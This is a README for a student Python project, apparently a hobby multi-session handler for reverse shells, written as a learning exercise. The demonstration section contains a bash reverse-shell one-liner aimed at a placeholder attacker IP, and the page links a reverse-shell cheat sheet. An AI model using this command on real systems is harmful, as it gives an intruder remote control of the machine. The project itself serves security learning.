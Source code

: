 # Automatic Goggles

Automatic googles is a program that allows you to manage multiple remote sessions on other machines. It allows you to switch between sessions and run commands on target machines.

## Things I learned

- I learned how to implement classes in python and that they can make things a lot easier.
- I learned more about socket programming in Python.
- [I learned about the different methods of sending reverse shells.](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- I learned more about programming in python and developed useful skill in regards to building larger programs. 

## Future Additions
- Upload/Download files.
- Some automation with Post-Exploitation.

## Current issues
- When you are in a shell running commands, you have to hit enter twice for the command to actually run and recive output. 
- Many other error handling things I need to go in and do. 

## Demonstration

Starting a listener for the connection...

![listen](pics/listen.png "Listener setup")

Recieving connection from compromised host (my helpful friend Josh Hammrich)...

Reverse shell method used -> `bash -i >& /dev/tcp/<myip>/1337 0>&1`

![receive](pics/recieved_connection.png "Recieving Connection")

Dropping into a shell on the new session...

![shell](pics/connecting_to_shell.png "Connecting to session")

Executing commands...

![cmdexec](pics/code_execution.png "Executing 'whoami'")

Killing connection...

![kill](pics/kill_connection.png "Killing the spawned session")

Running local commands inside of automatic-goggles...

![local](pics/local_command_run.png "Running 'ls' locally")

***
While there is practical use for this project, I will probably just stick with metasploit :) This was for learning experiences and I will continue to work on it and add things when I get ideas and find time!
